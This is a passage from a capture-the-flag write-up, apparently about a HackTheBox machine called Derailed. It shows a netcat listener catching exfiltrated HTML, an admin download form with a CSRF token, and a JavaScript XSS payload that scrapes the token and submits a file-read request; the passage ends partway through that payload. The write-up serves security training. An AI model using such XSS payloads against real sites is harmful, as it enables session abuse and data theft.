 ```

oxdf@hacky$ nc -lvnp 9001 > administration.html
Listening on 0.0.0.0 9001
Connection received on 10.10.11.190 32934

```

One thing to note that code me a bunch of time - The remote `fetch` won’t work on `http://10.10.11.190:3000` or `http://127.0.0.1:3000`. It has to go for `derailed.htb`. This is due to same origin policy. It will allow the request just like above, but then exit with an error just like I saw above. That same error will likely occur after the POST to my server, but at that point I don’t care, as I already have the exfil.

#### /administration

I’ll open the page in Firefox, and while the CSS doesn’t load, I can get a general feel for the page:

![image-20230719214906666](/img/image-20230719214906666.png)

The interesting part is the “Download” link. It’s actually part of an HTML form:

```

      <form method="post" action="/administration/reports">
        <input type="hidden" name="authenticity_token" id="authenticity_token" value="9mw2vcnB21eAXqYGuIdqD7awDeIu6rSXLLutK9YaTokG0BGxX9VU3bXFZCzLN4C8s7wL_VBFentQOBEHNCQL-Q" autocomplete="off" />
        <input type="text" class="form-control" name="report_log" value="report_19_07_2023.log" hidden>
        <label class="pt-4"> 19.07.2023</label>
        <button name="button" type="submit">
          <i class="fas fa-download me-2"></i>
          Download
        </button>
      </form>

```

Clicking the link will create a POST request to `/administration/reports`. In the POST body, it submits:
- `authenticity_token` - a hidden field with a token that changes on each request of the page, acts as a CSRF token.
- `report_log` - looks like a file name, also statically set in the page.

### File Read over XSS

#### Read report\_19\_07\_2023.log

I’ll craft a payload that will try to fetch the log file (the intended behaviour) over the XSS.

```

fetch('http://derailed.htb:3000/administration')
  .then(resp => resp.text())
  .then(html => {
    let page = new DOMParser().parseFromString(html, "text/html");
    let token = page.getElementById("authenticity_token").value;
    console.log(token);
    fetch('http://derailed.htb:3000/administration/reports', {
      method: "POST",
      headers: {
        "Content-Type": "application/x-www-form-urlencoded",
      },
      body: "authenticity_token=" + token + "&report_log=report_19_07_2023.log",
    })
    .then(resp => resp.text())
```
